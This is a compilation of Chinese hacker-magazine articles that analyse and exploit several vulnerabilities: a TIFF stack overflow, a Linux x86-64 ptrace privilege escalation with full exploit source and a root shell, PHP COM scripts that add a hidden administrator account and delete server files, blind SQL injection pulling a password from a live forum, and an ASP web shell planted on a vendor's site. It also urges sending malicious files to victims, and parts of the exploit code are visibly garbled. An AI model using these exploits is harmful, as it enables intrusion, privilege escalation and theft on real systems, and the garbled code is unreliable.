在这 15 个 DE 中，最值得关注的是第 4 个，也就是上面用加粗标出的一行，这个 DE 告诉我们，它的数值个数有“0000 00FF”个，也就是 255 个。数值类型均是 SHORT（0003），16 位，占两个字节，这 255 个数值在文件中的偏移量是“0000 3BDA”。以我的直觉来看，我认为这 255 个数值就是最后造成栈溢出的直接凶手，可能就是在程序中处理这 255 个数值时，将各个数值读入某函数的局部变量（可能是个数组）时，由于开辟的数组元素数有限，而且没有比较 255 这个数和开辟的数组元素个数的大小关系就开始读入，最终导致了缓冲区溢出的发生——这也只是我的合理预测和猜想，到底是不是如我所说，需要跟踪调试才能证明。下面我们就用 OllyDBG 来调试一下。

由于程序控制的 EIP 最终为 `0c0c0c0c`，如果不修改一下的话，跟踪调试的时候，调试器是不会停下来的。很简单，我们直接把 `0c0c0c0c` 改为 `FFFFFFFF` 即可，这样调试器发现程序在执行非法内存地址的指令就会停下来。停下来后，可以去检查栈中的蛛丝马迹。根据函数调用的原理，我们可以知道覆盖 EIP 为 `FFFFFFFF` 前执行的指令应该是 `RET` 指令……

我用这种办法，首先发现了两个可疑地址：`oieng400.dll` 文件中的“690B 3F71”和“690B 3163”，最后发现断到“690B 3163”时还尚未发生溢出，此时我就 F7 跟进去，最终通过单步调试的方法，终于找到溢出发生的函数，原来是在 `MSVCRT.dll` 下的 `read()` 函数中溢出的，如图 2 所示。

图2

为什么会在这个 `read()` 函数中溢出呢？我们首先来看看 `read()` 函数的定义。

```c
int handle;   // 文件句柄
void *buffer; // 存放读出数据的缓冲区
unsigned count; // 一次读出的字节数

// 功能：从由 handle 指定的文件中读取由 count 指定字节数的数据到 buffer。
// 返回值：0-0xfffe（实际读出的字节数）；-1（错误）。
```

再来看看给 `read()` 函数传入的三个参数是什么。其中 `handle` 是一个句柄，就是前面那个畸形文件的句柄；`buf` 是一个内存地址，指向了栈空间的一个内存单元；`len=1FE=FF×2`。结合前面的分析，连起来就是说，这里调用 `read()` 函数的目的是要把前面那 255 个 2 字节数值全部复制到内部某个变量中，而且在调用 `read()` 函数之前并没有做任何长度上的检查，因此这是一定能导致溢出的……最终覆盖了 `previous EBP` 和返回地址，导致发生栈溢出。下面这个截图可以看到返回地址被覆盖的效果，如图 3 所示。

| 序号 | 标记Tag | 类型Type | 值个数Count | 值表偏移量Value/Offset |
|---|---|---|---|---|
| 0 | 00FE | 0004 | 0000 0001 | 0000 0000 |
| 1 | 0100 | 0003 | 0000 0001 | 0000 0280 |
| 2 | 0101 | 0003 | 0000 0001 | 0000 0200 |
| 3 | 0102 | 0003 | 0000 00FF | 0000 3BDA |
| 4 | 0103 | 0003 | 0000 0001 | 0000 0005 |
| 5 | 0106 | 0003 | 0000 0001 | 0000 0002 |
| 6 | 0111 | 0004 | 0000 0056 | 0000 3D38 |
| 7 | 0115 | 0003 | 0000 0001 | 0000 0003 |
| 8 | 0116 | 0004 | 0000 0001 | 0000 0006 |
| 9 | 0117 | 0004 | 0000 0056 | 0000 3BE0 |
| 10 | 011A | 0005 | 0000 0001 | 0000 3BCA |
| 11 | 011B | 0005 | 0000 0001 | 0000 3BD2 |
| 12 | 011C | 0003 | 0000 0001 | 0000 0001 |
| 13 | 0128 | 0003 | 0000 0001 | 0000 0002 |
| 14 | 013D | 0003 | 0000 0001 | 0000 0001 |

表1

##### 漏洞利用

这个漏洞非常类似于我今年 5 月份写的……

图3

图4

畸形 tif 文件和网页木马，挂在网站上，等 Windows 2000 的目标机器来上钩。如图 4 所示，是我在本地的测试效果。

##### 总结

回顾本漏洞的重现过程和分析过程，我们首先学习了 TIFF 文件格式的一些基本规范。由于利用程序中没有详细的注释说明为什么那样构造畸形文件，因此我们需要掌握一定的文件格式规范。接着我们结合利用程序对其生成的畸形 tiff 文件，根据格式规范来分析，发现在第一个 IFD 中的第 4 个 DE 有一定的可疑，该 DE 指定了数值类型为 16 位的无符号整数，一共指定了连续的 FF 个这样的数值。最终通过跟踪调试的方法，定位到了栈溢出发生的函数——`read()` 函数。它是微软的 C 标准运行库中的一个函数，功能是从由 handle 指定的文件中读取由 count 指定字节数的数据到 buffer，而在对 TIFF 文件做处理的 `oieng400.dll` 文件中调用 `read()` 函数时，传入的 buffer 竟然是内部变量，而且从文件中读取并写入这个内部变量前没有做任何的检查操作。这就是导致漏洞发生的根本原因。

那个严重的微软漏洞——ANI 文件处理漏洞，现在又多了一个 TIFF 文件处理漏洞。看来图像格式文件的处理漏洞还是挺多的，也挺好挖掘的，只要掌握了文件格式的规范就可以开始 fuzz 了。

对于这个 TIFF 文件处理漏洞的利用，非常简单。你可以用 milw0rm 上公布的第一个 exploit，改进自己的 ShellCode，然后用 VC6 编译生成畸形的、恶意的 tif 文件，通过邮件、聊天工具等软件发送给目标用户，只要他是 Windows 2000 操作系统，敢打开这个文件所在的目录，那就直接中招了。

当然，还可以用本文中的 exploit，也就是 milw0rm 上公布的第二个 exploit，改进自己的 ShellCode，然后用 ActivePerl 运行那个 perl 程序，就可以生成一对文件——

适合读者：漏洞爱好者、溢出爱好者  
前置知识：缓冲区溢出基本原理

## Linux 64位内核 Ptrace 权限提升漏洞分析与利用

2007 年 09 月 27 日，在 milw0rm 上公布的一个 Linux 内核漏洞——“Linux Kernel 2.4/2.6 x86-64 System Call Emulation Exploit”引起了相当大的关注，点击数目前已经累积达到 15235 点，可以说是今年点击数最高的漏洞，而其他公布出来的漏洞一般都是 1000~3000 点，最多 5000 点左右已经算是很受关注了。因为这是一个重量级的 Linux 内核漏洞，可以用来做权限提升，即从任意用户权限提升至 Root 权限，甚至是内核权限，因此备受关注！而且影响的内核版本比较高。

唯一遗憾的是，这个漏洞只作用于 64 位的系统，并且是在 x86-64 平台上。漏洞具体描述是这样的：在 x86-64 平台上，Linux Kernel 支持对 IA32 用户态应用程序的兼容模拟，`arch/x86_64/ia32/ia32entry.S` 代码优化导致在底层汇编程序中使用了无效的 opcode，由于没有正确地验证存储在 `%RAX` 寄存器中的 64 位值，可能导致越界系统调用表访问，本地攻击者可以在 Linux Kernel 系统环境中执行任意指令。由于这个漏洞的严重性，目前 Linux 各大发行版已发布了该漏洞的补丁。

## 漏洞重现与分析

作为 Linux 内核漏洞来学习，我们首先要做的就是重现这个漏洞。看到这个漏洞的 title 就应该知道，这是一个 x86-64 平台下的漏洞。x86-64 指令集是扩展的 64 位 x86 指令集。

目前主流 CPU 使用的 64 位技术主要有 AMD 公司的 AMD64 技术、Intel 公司的 EM64T 技术和 IA-64 技术。其中 IA-64 是 Intel 独立开发的，不兼容目前传统的 32 位计算机，仅用于 Itanium（安腾）以及后续产品 Itanium 2。

AMD64 位技术是在原始 32 位 x86 指令集的基础上加入了 x86-64 扩展 64 位 x86 指令集，在硬件上兼容原来的 32 位 x86 软件，并同时支持 x86-64 的扩展 64 位计算，使得这款芯片成为真正的 64 位 x86 芯片。这是一个真正的 64 位标准，x86-64 具有 64 位的寻址能力。

Intel 官方是给 EM64T 这样定义的：EM64T 全称 Extended Memory 64 Technology，即扩展 64 bit 内存技术。EM64T 是 Intel IA-32 架构的扩展，即 IA-32e（Intel Architecture-32 Extension），IA-32 处理器通过附加 EM64T 技术，便可在兼容 IA-32 软件的情况下，允许软件利用更多的内存地址空间，并且允许软件进行 32 bit 线性地址写入。EM64T 特别强调的是对 32 bit 和 64 bit 的兼容性。

有了以上对 64 位技术的了解，我们应该能想到，做这个漏洞实验，最好选用 AMD64 的机器。我们平时使用的 32 位机器是绝对不行的。我本想用虚拟机在 32 位机器上安装一个 64 位的 Linux 操作系统，最后发现是行不通的，因为虚拟机的原理是把 Guest 操作系统执行的每一条指令转交给 Host 操作系统下真实的 CPU 来执行，所以由于 Host 中 32 位的 CPU 不支持 Guest 中 64 位的指令，因此是不可能成功的。

另外，我还试图安装模拟器，以在 32 位机器上模拟一个 64 位的 CPU，后来发现慢得我实在接受不了！于是我还是老老实实地借了一台 AMD64 机器，如图 1 所示，上面已经安装了 32 位的 Windows XP 操作系统，不过没关系，32 位操作系统只要 CPU 是 64 位的就可以虚拟出 64 位的操作系统。

因此，如果大家要重现这个漏洞的话，一定要把 64 位 Linux 操作系统装好，最好选用 AMD64 机器。

然后在其上安装 VMWare 虚拟机，版本高一点比较好，因为低版本的 VMWare 在 64 位方面有些还是实验性质的，而高版本已经完全搞定 64 位虚拟的问题了。我安装的是 6.0 版的 VMWare，如图 2 所示。

之后安装一个 Linux 系统，注意一定要选用适合 AMD64 的安装包，我安装的是 Ubuntu 7.04 这个发行版的 AMD64 位安装包——`ubuntu-7.04-desktop-amd64.iso`。系统装好后，才算实验环境基本搭建好。

Ubuntu 7.04 安装好后，不要使用 Ubuntu 的自动更新，如果内核被更新的话，很可能我们的实验就没法完成了，因为更新就是在给内核打补丁。接下来，我们可以把 POC 程序（exp.c）在 Linux 下跑一跑，也就是用 gcc 编译并运行。

```bash
$ cd /home/shineast/linux_exp/
$ ls
exp.c
$ gcc -o exp exp.c
$ ls
exp  exp.c
$ ./exp
UID:0, EUID:0 GID:0, EGID:0
#
```

注意最后一行的那个“#”，它可不是一般的什么“#”号，而是表示权限成功提升！一般用户运行的结果，却得到了 Root 权限的 Shell。这确实让人惊叹而兴奋啊！

下面我们就一起来学习一下这段 POC 程序，网上有位朋友写了这段程序的注释，我在他的基础上又补充了一些，同时把它们串起来，我想这样大家可以理解得更深刻一些。

```c
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <inttypes.h>
#include <sys/reg.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>

uint32_t uid, euid, suid;

static void kernelmodecode(void){
    int i;
    uint8_t *gs;
    uint32_t *ptr;
    asm volatile("movq %%gs:(0x0), %0" : "=r"(gs));
    for (i = 2000; i < 1000; i++)
        ptr = (uint32_t *)(gs + i);
    if ((ptr[0] == uid) && (ptr[1] == euid) && (ptr[2] == suid)) {
        ptr[0] = 0;
        ptr[1] = 0;
        ptr[2] = 0;
        break;
    }
}

static void docall(uint64_t *ptr, uint64_t size){
    getresuid(&uid, &euid, &suid);
    uint64_t tmp = ((uint64_t)ptr & 0x0000000000000FFF);
    // ...
}
```

```c
/* 以下是执行 mmap 后的地址空间说明 */
/* 系统调用表、内核结束地址、内核起始地址等 */

if ((mmap((void*)tmp, size,
    PROT_READ|PROT_WRITE|PROT_EXEC,
    MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0)) == MAP_FAILED) {
    printf("mmap fault\n");
    exit(1);
}

for (; ptr < (tmp + size); ptr++)
    *ptr = (uint64_t)kernelmodecode;

__asm__(
    "movq $0x101, %rax\n"
    "int $0x80\n");

printf("UID %d, EUID %d, GID %d, EGID %d\n", getuid(), geteuid(), getgid(), getegid());
execl("/bin/sh", "/bin/sh", 0);

int main(int argc, char **argv){
    int pid, status, set = 0;
    uint64_t rax;
    uint64_t kern_s = 0xffffffff80000000;
    uint64_t kern_e = 0xffffffff84000000;
    uint64_t off = 0x0000000800000001;

    if (argc == 4) {
        docall((uint64_t*)(kern_s + off), kern_e - kern_s);
        exit(0);
    }

    if ((pid = fork()) == 0) {
        ptrace(PTRACE_TRACEME, 0, 0, 0);
        execl(argv[0], argv[0], "2", "3", "4", 0);
    }
}
```

```c
perror("exec fault");
exit(1);
...
if (pid == -1) {
    printf("fork fault\n");
    exit(1);
}

/* 父进程任务空间 */
for (;;) {
    if (wait(&status) != pid)
        continue;

    if (WIFEXITED(status)) {
        printf("Process finished\n");
        break;
    }

    if (!WIFSTOPPED(status))
        continue;

    if (WSTOPSIG(status) != SIGTRAP) {
        printf("Process received signal: %d\n", WSTOPSIG(status));
        break;
    }

    rax = ptrace(PTRACE_PEEKUSER, pid, 8 * ORIG_RAX, 0);

    if (rax == 0x000000000101) {
        if (ptrace(PTRACE_POKEUSER, pid, 8 * ORIG_RAX, off) == -1) {
            printf("PTRACE_POKEUSER fault\n");
            exit(1);
        }
        set = 1;
    }

    if ((rax == 11) && set) {
        ptrace(PTRACE_DETACH, pid, 0, 0);
        for (;;)
            sleep(10000);
    }

    if (ptrace(PTRACE_SYSCALL, pid, 1, 0) == -1) {
        printf("PTRACE_SYSCALL fault\n");
        exit(1);
    }
}

return 0;
```

这段程序写得很巧妙，main 函数中使用 fork 函数创建子进程，同时使用 Ptrace 调试子进程。Ptrace 是一个调试工具，提供父进程观察和控制另一个进程执行的机制，同时提供查询和修改另一进程核心映像与寄存器的能力。它主要用于执行断点调试和系统调用跟踪。父进程可通过调用 fork，接着指定子进程的 PTRACE_TRACEME 行为，最后使用 exec 等操作来初始化一个进程跟踪。也可通过 PTRACE_ATTACH 请求跟踪一个现存进程的执行。

- 1. 当前进程（子进程 A）进入内核，`int 0x80`（`eax=101`）；
- 2. 内核触发父进程的调试；
- 3. 父进程动态修改 `rax` 为 `0x0000000080000101`；
- 4. 当前进程继续执行，在系统调用表中偏移 `0x0000000080000101`，导致内核地址空间翻转到 `tmp(3F80000000)`，最终在 `ia32entry.S` 中跳转到相应地址；
- 5. 执行 `kernelmodecode` 后门函数。

此时不要困惑为什么内核程序没有检查地址溢出。实际上内核有检查，但检查寄存器和最终跳转使用的寄存器不一致，导致出现 Bug。为分析该漏洞根本原因，需要下载并解压内核源码包，查看 `arch/x86_64/ia32/ia32entry.S` 汇编文件。可以看到 `int 0x80` 调用响应中的代码存在问题：检查溢出的寄存器是 `%eax`，而最终跳转使用的是 `%rax`，这种不一致导致内核服务程序地址反转至内核空间，执行内核后门函数。

这段程序写得很巧妙，main 函数中使用 fork 函数创建子进程，同时使用 Ptrace 调试子进程。Ptrace 是一个调试工具，提供父进程观察和控制另一进程执行的能力。

```asm
ia32_do_syscall:
/* 判断 eax 是否溢出，如果系统调用号溢出，返回错误 */
cmpl $(IA32_NR_syscalls-1), %eax
```

```c
CFI_ENDPROC

/*
 * Emulated IA32 system calls via int 0x80.
 *
 * Arguments:
 * %eax System call number.
 * %ebx Arg1
 * %ecx Arg2
 * %edx Arg3
 * %esi Arg4
 * %edi Arg5
 * %ebp Arg6 [note: not saved in the stack frame, should not be touched]
 *
 * Notes:
 * Uses the same stack frame as the x86_64 version.
 * All registers except %eax must be saved (but ptrace may violate that)
 * Arguments are zero extended.
 */

ENTRY(ia32_syscall)
    CFI_STARTPROC
    ...
```

```asm
ia32_do_syscall:
    cmpl $(IA32_NR_syscalls-1), %eax
    ja  ia32_badsys
    IA32_ARG_FIXUP
    call *ia32_sys_call_table(,%rax,8)   # xxx: rip relative
    movq %rax, RAX-ARGOFFSET(%rsp)
    jmp int_ret_from_sys_call

不一致问题！
```

```asm
ia32_badsys:
IA32_ARG_FIXUP
/* 通过“系统调用表 + rax*8”的偏移方式实现调用 */
call *ia32_sys_call_table(,%rax,8)  # xxx: rip relative
/* 用 eax 判断溢出，用 rax 执行调用 */

`63 32 16 8 1` / `RAX`
```

> EAX / AX / AL

父进程在调用之前将 rax 修改为 `0x0000000800000101`，这样 eax=`0x00000101`，不溢出；系统调用表 `+rax*8` 溢出并翻转到用户空间；所以，将 `call *ia32_sys_call_table(,%rax,8)` 改成 `call *ia32_sys_call_table(,%eax,8)` 或许可以规避这个 bug。

## 漏洞总结

通过对这个 Linux 内核漏洞的分析，我们找到了这个漏洞发生的根本原因——Linux 内核对 `int 0x80` 调用的响应代码中存在问题，即检查地址溢出的寄存器是 `%eax`，但是最终跳转时使用的寄存器却是 `%rax`。而 Ptrace 恰好具有在调试子进程时更改寄存器的功能，这样就完美地利用了这个漏洞，最终实现从一般权限到 Root 权限和内核权限的提升。

只要目标主机操作系统使用的是 Linux 2.4 或 2.6 的 64 位 x86-64 内核，并且没有 Patch 过即可。当前 64 位内核仍存在稳定性和安全性问题，此类漏洞可直接导致提权，严重影响 Linux 主机安全。

图3

- 适合读者：漏洞爱好者
- 前置知识：PHP

## PHP 5.x COM functions 提权漏洞的利用


PHP 是英文“超级文本预处理语言”（Hypertext Preprocessor）的缩写，是一种 HTML 内嵌式语言。它可以比 CGI 或者 Perl 更快速地执行动态网页。PHP 具有非常强大的功能，所有的 CGI 或者 JavaScript 的功能，PHP 都能实现，支持几乎所有流行的数据库以及操作系统。

近期功能如此强大、运用如此广泛的 PHP 却出现了重大漏洞，也就是 PHP 5.x COM functions safe_mode and disable_function bypass 漏洞。它可以实现提权，这是很多朋友所梦寐以求的。下面先总体介绍一下漏洞。

漏洞用到的 COM 函数只在 Windows 环境下的 PHP 才存在，.NET 的支持需要 PHP5 以及 .NET Runtime。

漏洞所利用的函数无需特殊安装，是 PHP 内核的一部分。Windows 环境下的 PHP 默认支持这些扩展，不用额外加载其他扩展来调用漏洞函数。

现在部分大中型网站都喜欢用 PHP+Apache+Windows 来架设，这样的话，PHP 漏洞的打击面就会很大了，特别是在现在提权越来越难的形势下，我想，很多服务器会因为这个漏洞而沦陷的。

根据漏洞发现者公布的内容，漏洞的利用要求 php.ini 中有如下设置。我的测试环境为 PHP 5.2.3 + Apache 2.2.3 + Windows XP SP2，在我的测试当中，发现并不一定要严格按照这样配置，大家可以自己测试一下看看。

```ini
safe_mode = On
disable_functions = com_load_typelib
open_basedir = htdocs
```

下面我们就逐一看看这个漏洞的内容与利用。

## compatUI.dll 中的 RunApplication 函数

这个漏洞的测试代码如下。

```php
<?php
$compatUI = new COM('{0355854A-7F23-47E2-B7C3-97EE8DD42CD8}'); // 加载 compatUI.dll
$compatUI->RunApplication('something', 'notepad.exe', 1);
// 运行记事本
?>
```

将其保存为 PHP 文件，放到服务器上，然后用 IE 访问就可以了。运行后 IE 是没有什么回显的，如图1所示，但实际上记事本已经运行了，而且是 SYSTEM 权限，因为它是由系统服务来运行的，所以继承了 SYSTEM 权限，如图2所示。


利用这个漏洞，我们可以运行已经上传好的木马，实现 Web Shell 的提权。当然，如果你足够无聊的话，还可以写成循环，让服务器运行很多记事本，实现 D.O.S。


## Wscript 运行命令

这个漏洞的测试代码如下。

```php
<?php
$wscript = new COM('wscript.shell');
// 要用到 wscript.exe
$wscript->Run('cmd.exe /c calc.exe');
// 运行 calc.exe
?>
```

访问该脚本后，服务器上出现了 SYSTEM 权限的 calc.exe 进程，如图3所示。我们只要发挥一下想象力，修改一下脚本，就能加个管理员账户了，具体代码如下。


```php
<?php
$wscript = new COM('wscript.shell');
$wscript->Run('cmd.exe /c net user admin$ /add');
$wscript->Run("cmd.exe /c net localgroup administrators admin$ /add");
```

访问该脚本之后，即可添加管理员成功，这对 SYSTEM 权限来说简直就是噩梦，如图4所示。


图4

## wshom.ocx 中的 OpenTextFile

OpenTextFile 可以用于创建一个文件，其中存在的漏洞测试代码如下。

```php
<?php
$mPath = str_repeat("../",20);
$FSO = new COM('Scripting.FileSystemObject');
// 利用了 wshom.ocx
$FSO->OpenTextFile($mPath."bat.bat", 8, true);
// 在服务器上创建文件
?>
```

果然在 C 区根目录出现了这个批处理文件 bat.bat，如图5所示。


图5

## wshom.ocx 中的 DeleteFile

这个函数可以删除服务器上的文件，大家要小心使用，测试代码如下。

```php
<?php
$mPath = str_repeat("../",20);
$FSOdelFile = new COM('Scripting.FileSystemObject');
// 利用了 wshom.ocx
$FSOdelFile->DeleteFile($mPath."\\*.dat", True);
// 删除 C 区根目录的所有 dat 文件
?>
```

## wshom.ocx 中的 DeleteFolder

利用这个函数可以删除服务器上的文件夹，很恐怖哦。测试代码如下：

```php
<?php
$mPath = str_repeat("../",20);
$FSOdelFolder = new COM('Scripting.FileSystemObject');
// 使用 wshom.ocx
$FSOdelFolder->DeleteFolder($mPath."\\11", True);
// 删除特定的文件夹
?>
```

访问之后，成功删除了 `c:\\11` 这个文件夹。

## shgina.dll 中 Create 函数创建账户

这个漏洞的测试代码如下：

```php
<?php
$user = new COM('{60664CAF-AF0D-0004-A300-5C7D25FF22A0}');
// 利用 shgina.dll
$user->Create("asd"); // 创建账户 asd
?>
```

不过，这里要注意一下，利用这个漏洞创建的账户只是属于 users 组的，如图6所示。


图6

关于 PHP 5.x COM functions 漏洞的利用就为大家介绍到这里了，测试代码已经随文提供，大家根据自己的需要，进行适当修改即可。不过，提醒大家一下，以上几个漏洞的利用前提是我们已经有了 WebShell，之后才可以上传用于提权的脚本，切记哦。

- 适合读者：入侵爱好者
- 前置知识：Perl 语言、Linux 基础

#### 苦练 UT 论坛漏洞

文／图 猛撞鼠标


UT（Ultra Threads）论坛是典型的 LAMP 组合（Linux、Apache、MySQL 和 Perl），界面简洁，安全性在国内使用的各种论坛里算得上数一数二的。作为一个 Web 安全爱好者，我忍不住要测试一下 UT 论坛的安全性。本文就把本次检测发现的漏洞与各位读者分享一下，希望能对大家有所帮助。

下面开始我们的探索之旅。不过在开始之前，我假设大家都了解一些 Linux 和 Perl 的基础知识，不了解也没多大关系，文中提到的都是些基本命令，相信大家也能看明白的。

我们先找个 UT 论坛，正好地方网的论坛是 UT 的，就拿它来做测试吧。我首先想到的是 SQL 注入，用啊D SQL 注入器找了若干网页，都没发现有可注入的地方。手工添加“'”和 `and 1=2` 也不行，网页正常返回了，如图1和图2所示。


看来 SQL 注入是没戏了（本来嘛，一个论坛这么好找注入点，不早就变“洞”网了），接下来用 X-Scan 扫描，也只是找到一些不痛不痒的安全隐患。WuFTP 溢出、Apache 漏洞等等，试了一下都没什么效果。看来只能用最原始的办法了，看源代码找漏洞。到网上下载了 UT 论坛 1.0 Final 版。

UT 论坛是 Perl 编写的，而 Perl 程序的漏洞大多在 Open 或 System 函数的使用中出现。举个例子，如果 Open 或者 System 函数对打开的文件或者命令未做处理的话，我们就可以提交一些特殊格式的命令来达到目的，比如下面的命令。

```perl
open (IMG, $file_img) or die "Could not open image";
```

```
// 假如在 $file_img 文件名中出现“|”字符，脚本就会执行命令，如 $file_img='; /bin/ls ;'
```

根据上面的介绍，我们在 Linux 下输入命令 `grep open *.cgi |more`，如图3所示，在结果中找了一些比较有可能有漏洞的程序看了一下，比如在 cfg_general_x.cgi 程序中的第 239 行，如图4所示。它打开的文件名称不是外面输入的数据（untainted）。再看 post_reply_x.cgi，程序里有上传附件的功能，附件的文件名是外部输入的，我们来看看源程序，如图5所示，其中的 `$fileName` 是外部输入的，我们看看程序有没有对其做合法性检查。


图6是对 `$fileName` 的合法性检查。首先是第256行去掉了“/”和“\”等路径符，只留下文件名；然后第257行去掉了文件名中非字母、非“.”和非“-”的字符。为了防止上传木马程序，第263行还对后缀名为 ASP、JSP、CGI、PL 和 PHP 的文件进行了处理，将其变为了 TXT 文件。看来这里不可能找到漏洞。


洞了，接着又看了几个程序都是如此，UT对于安全性方面的考虑确实是很周到。转了一圈没有什么发现，最终还是想试试SQL注入，主要是因为SQL注入问题无处不在，只要程序员稍有松懈，漏洞就会迎面而来。

下面简单说一下SQL注入。假设某页面的地址为 `http://xx.cn/cgi-bin/board_show.cgi?id=62&age=0`，那么提交参数传入CGI程序后，在SQL语句中大致为：

```sql
select * from ut_boards where id=$id and age=$age;
```

如果我们将参数手工改为 `age=0 or 1=1`，程序中的SQL语句会变为：

```sql
select * from ut_boards where id=62 and age=0 or 1=1;
```

这条语句将选出所有 `id=62` 的数据，因为 `age=$age or 1=1` 恒为真。接下来查看UT代码中是否存在类似情况。大部分程序在SQL前对字符串变量做了 `quote()` 处理，对整型变量使用了 `int` 限制，因此注入较难直接利用（如图7、图8）。


如果看源码会发现UT论坛广泛使用了 `quote()` 和 `int` 限制，这对攻击不利。但在 `pm_addbuddy_x.cgi` 中仍找到了可疑点（见图9）。


该程序用于将用户添加到自己的短消息簿中。第39行 `my $userId=$cgi->param('id')` 直接取网页参数，未检查即用于第43行SQL。可构造：

```sql
my $query = "select userName FROM ut_users WHERE id=$userId";
```

在ID后追加单引号可触发报错，验证存在注入点（图10）。


进一步可在ID参数中加入判断语句，如测试密码长度（图11），使SQL变为：


```sql
select userName FROM ut_users WHERE id=22720 and length(password)>15;
```

程序执行后，若该用户密码长度大于15则条件为真，程序正常执行；若不满足则返回错误信息。实验结果如图12所示。


我们再提交 `length(password)>10`，结果网页正确返回了我们要加好友的用户，如图13所示。然后提交 `length(password)>11`，结果返回会员不存在，说明密码长度大于10位但不大于11位，这样大家知道密码是多少位了吧（下面叫道：是10.5位！“我晕”）！

我们再提交如下语句：`http://xx.cn/cgi-bin/pm_addbuddy_x.cgi?id=25959'and left(password,1)>'a`。这次返回正确了，提交 `>'a'` 的时候返回会员不存在，说明密码的第一位是“a”（大家可以对照ASCII表来验证）。有了第一位，下面几位估计也不是难事了，最后我们得出密码是 `aabbcc12345`。有了一个ID的密码，管理员的密码也可以如法炮制了，大家可以自己去验证一下。


图13

那么我们如何查询密码到底是多少呢？这要用到 `Left` 跟 `Right` 函数了。我们提交语句 `http://xx.cn/cgi-bin/pm_addbuddy_x.cgi?id=25959 and left(password,1)>'z'`。这条语句的意思是password左起第一位是否大于z。要说明的是，z两边要加单引号，因为它是字符，而且MySQL是不区分大小写的，所以大家不必看着ASCII码表，将z跟Z分别测试。执行后网页返回的结果如图14所示。


图14

至此，UT论坛漏洞的发现过程告一段落，UT作者kevinWu对90%以上的程序安全性都做了仔细检查，但是唯独 `pm_addbuddy_x.cgi` 程序却对变量没有做任何检查，而使整个论坛的安全出了问题，不得不让人感慨千里之堤溃于蚁穴呀！要解决这个漏洞的办法很简单，只要对第39行 `my $userId=$cgi->param('id')` 这条语句中的userId做整型限制，修改为 `my $userId=int($cgi->param('id'));` 即可。文章到此就结束了，希望看到本文的UT用户能够尽快把漏洞补上，如有想一起探讨这方面话题的读者，可以到黑防官方论坛，我们一起进行讨论！

- 适合读者：入侵爱好者
- 前置知识：无

## 日记本BUG瞬间拿下梦想中国热线

文/图 Zero_cold

一个朋友由于建站的需要，让我帮忙挑选一款合适的日记本程序。我在网上搜索了很多日记本，最后把目标锁定在梦想天堂多用户日记本。这个日记本程序不是很大，而且做得很漂亮，基本能满足朋友的要求。

由于这样的程序脚本安全一般都不是很好，我就去官方下载了一个最新版的，然后在Google搜索看看有没有关于这个日记本的漏洞，结果没有发现什么。没有办法，只好自己读一遍这个日记本程序了，结果发现问题还真不小。我在官方验证了一下，直接拿到了梦想中国热线的WebShell。下面就来说说这个程序的问题所在。

我们先来看一下inc下的数据库连接文件 conn.asp，其代码如下：

```asp
<%
Dim conn
Dim sqlstr
Dim db
' 更改数据库名字
db="data/aqbt.cnasp"
set conn = Server.CreateObject("ADODB.Connection")
sqlstr="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath("inc\" & db & "")
conn.Open sqlstr
%>
<%
dim listnum, reguservalue
listnum=1   ' 定义每页显示日记数量
reguservalue=1
```

```asp
' 这里 1 允许新用户注册，0 不允许新用户注册
cnt_new=20  ' 首页显示的新日记数
usernum=13  ' 首页显示的排名会员数
' 过滤非法字符
function HTMLEncode(fString)
  fString = replace(fString, ">", "&gt;")
  fString = replace(fString, "<", "&lt;")
  fString = Replace(fString, CHR(32), "&nbsp;")
  fString = Replace(fString, CHR(34), "&quot;")
  fString = Replace(fString, CHR(39), "&#39;")
  fString = Replace(fString, CHR(13), "")
  fString = Replace(fString, CHR(10) & CHR(10), "</P><P>")
  fString = Replace(fString, CHR(10), "<BR>")
  HTMLEncode = fString
end function
```

```asp
response.cookies("userid")=rs("userid")
rs.close
response.Redirect("userreg.asp?action=ok&username="&username)
end if
end if
```

从以上程序，我们发现只要输入用户名、密码及邮箱地址就能直接注册用户。程序过滤了用户名和密码中的单引号，并仅判断是否重名后写入数据库。由于邮箱字段限制较少且长度更大，成为注入一句话木马的关键点。

以上面的代码可以看到程序数据库连接部分没有做容错处理，意味着存在暴库可能。直接访问 `inc/conn.asp` 进行测试，结果如图1所示。


图1

我晕，默认数据库和我下载的默认数据库竟然完全一样！继续研究发现数据库也没有防下载处理。若无保护即可直接下载查看内容，但不建议以此侵犯他人隐私。

我们继续以官方站点测试，注册用户时在邮箱地址写入一句话木马：`<%eval request(chr(35))%>`，提交后显示注册成功。随后使用一句话客户端连接数据库目录下的ASP文件，结果如图2。


图2

```asp
<!--#include file="top.asp"-->
<%
if Trim(Request.QueryString("action"))="reg" then
  username=replace(Trim(Request.Form("username")),"'","")
  password=replace(Trim(Request.Form("password")),"'","")
  sex=Trim(Request.Form("sex"))
  email=Trim(Request.Form("email"))
  regip=Trim(Request.Form("regip"))
  set rs=server.CreateObject("adodb.recordset")
  sql="select * from userlist where username='"&username&"'"
  rs.open sql,conn,1,1
  if not (rs.bof and rs.eof) then
    Response.Write("<script>alert('该用户名已经被注册')</script>")
  else
    set rs=server.CreateObject("adodb.recordset")
    sql="select * from userlist"
    rs.open sql,conn,1,3
    rs.addnew
    rs("username")=username
    rs("password")=password
    rs("email")=email
    rs("regip")=regip
    rs("sex")=sex
    rs.update
    response.cookies("user")=username
```

到这里已经成功拿到WebShell。漏洞修补方面：`conn.asp` 需增加错误处理；数据库应做防下载；对ASP后缀数据库应限制执行与访问；对邮箱字段应做 `HTMLEncode` 及合法性校验，避免注入代码。

关于该日记本的BUG，文中表示已联系官方，期望其持续修复安全问题，使多用户日记本更加完善。

- 适合读者：入侵爱好者
- 前置知识：无

## 首发尘缘图文系统后台上传Shell漏洞

文/图 王勇

我们学校的网站第一次被我入侵是我大一的时候，当时看到黑防的一篇文章，说什么如果连自己学校的网站都没入侵过的大学生不算是一个黑客，所以我就……（咳，咳！学校网管别怪我啊，要怪也要怪那个作者）第一次入侵之后，我什么也没做，只是在首页目录里加了个页面，写上了我发现的漏洞，然后给主页加了个链接“管理员请进”，算是通知管理员了。之后过了几天，学校就换了个服务器，连整站代码都彻底改了。学校换站之后，我就开始了我的第二次入侵，于是就有了本文。

